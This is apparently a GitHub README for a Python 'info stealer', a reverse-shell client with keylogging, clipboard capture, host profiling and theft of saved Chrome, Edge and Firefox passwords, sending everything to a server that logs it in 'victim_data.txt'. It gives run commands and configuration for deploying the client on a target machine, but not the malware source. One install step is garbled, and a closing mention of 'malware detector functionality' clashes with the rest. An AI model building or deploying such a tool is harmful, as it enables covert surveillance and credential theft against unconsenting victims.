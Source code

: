 # simple info stealer Project

This project consists of a reverse shell implementation with keylogging capabilities. It involves two main components: a client script (`reversShell.py`) that runs on the target machine and sends data back to a server, and a server script (`server.py`) that receives and logs the data sent by the client.

## Features

1. **Socket Communication**:
   - Establishes a socket connection between the client and the server.
   - Sends data from the client to the server.

2. **Keylogging**:
   - Captures keystrokes on the client machine.
   - Sends captured keystrokes to the server.

3. **Clipboard Data**:
   - Captures clipboard data from the client machine.
   - Sends clipboard data to the server.

4. **Host Information**:
   - Gathers detailed information about the host machine, including:
     - Hostname
     - Private and public IP addresses
     - Processor information
     - Operating system details
     - Disk usage
     - Memory usage
   - Sends host information to the server.

5. **Password Stealing**:
   - Extracts saved passwords from browsers (Chrome, Edge, Firefox).
   - Sends extracted passwords to the server.

## Requirements

- Python 3.x
- Required Python libraries:
  - `pynput`
  - `requests`
  - `psutil`
  - `pywin32`

Install the required libraries using pip:

```sh
the reverseshell install the modules

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python reverseShell.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`reverseShell.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.
